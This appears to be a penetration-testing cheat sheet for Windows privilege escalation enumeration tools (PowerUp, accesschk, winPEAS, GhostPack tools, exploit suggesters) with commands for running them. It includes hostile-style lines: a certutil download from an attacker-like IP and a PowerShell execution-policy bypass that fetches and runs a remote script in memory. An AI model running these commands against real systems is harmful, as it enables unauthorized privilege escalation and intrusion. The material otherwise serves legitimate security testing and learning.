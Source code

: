 

# PowerUp

```bash
# Remote
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1

# local
certutil -urlcache -split -f "http://10.17.68.184:8000/PowerUp.ps1" PowerUp.ps1
```

To run PowerUp, start a PowerShell session and **use dot sourcing to load the script:**

```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```

**OR**

```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

# accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

# winPEAS

winPEAS is a very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

```
# Code: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
```

Before running, we need to add a registry key and then reopen the command prompt:

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```
.\winPEASany.exe quiet cmd fast
```

Run specific check categories:

```
.\winPEASany.exe quiet cmd systeminfo
```


# **📁 Automated Tools for Privilege Escalation**

### 🛠 EXE Tools (Run as .exe files)

You upload these `.exe` files to the target system and run them. They show you where the system might be weak.

### ✅ winPEAS.exe

- **Job:** Checks for many weaknesses: services, passwords, file access, registry, etc.
- **Download:** https://github.com/carlospolop/PEASS-ng/releases
- **Run it:**

```
winPEAS.exe
```

### ✅ Seatbelt.exe

- **Job:** Shows security info like saved passwords, browser history, installed apps.
- **Source:** https://github.com/GhostPack/Seatbelt
- ⚠️ You must compile it  before use.

### ✅ SharpUp.exe

- **Job:** Looks for ways to become admin, like bad file or service permissions.
- **Source:** https://github.com/GhostPack/SharpUp
- ⚠️ Needs to be compiled.

### ✅ Watson.exe

- **Job:** Finds known Windows bugs (CVEs) that work on this system.
- **Source:** https://github.com/rasta-mouse/Watson
- ⚠️ Compile before use.

---

### 💻 PowerShell Scripts (.ps1 files)

These are text files you run in PowerShell to look for weak spots.

### ✅ PowerUp.ps1

- **Job:** Checks services, registry, DLLs, paths, etc. for privilege issues.
- **Download:** https://github.com/PowerShellMafia/PowerSploit
- **Use it:**

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### ✅ Sherlock.ps1

- **Job:** Finds missing Windows updates that attackers can use.
- **Download:** https://github.com/rasta-mouse/Sherlock
- **Use it:**

```
Import-Module .\Sherlock.ps1
Find-AllVulnerabilities
```

### ✅ JAWS-enum.ps1

- **Job:** Checks logs, users, firewall, AV, and more.
- **Download:** https://github.com/411Hall/JAWS
- **Use it:**

```
.\JAWS-enum.ps1
```

---

### 🐍 Python Tools (Run on your system)

These tools read Windows version info and suggest known bugs.

### ✅ windows-exploit-suggester.py

- **Job:** Shows possible Windows bugs based on system info.
- **Download:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- **Steps:**

```
systeminfo > sysinfo.txt          # Get system info from target
./windows-exploit-suggester.py -i sysinfo.txt
```

### ✅ Windows Exploit Suggester - NG (WES-NG)

- **Job:** Updated version of the above tool.
- **Download:** https://github.com/bitsadmin/wesng
- **Steps:**

```
./wes.py --update                 # Update CVE list
systeminfo > sysinfo.txt          # Get system info
./wes.py sysinfo.txt              # Get exploit suggestions
```

### ✅ Metasploit Exploit Suggester

- **Job:** Shows escalation options in Meterpreter session.
- **Module: `post/multi/recon/local_exploit_suggester`**
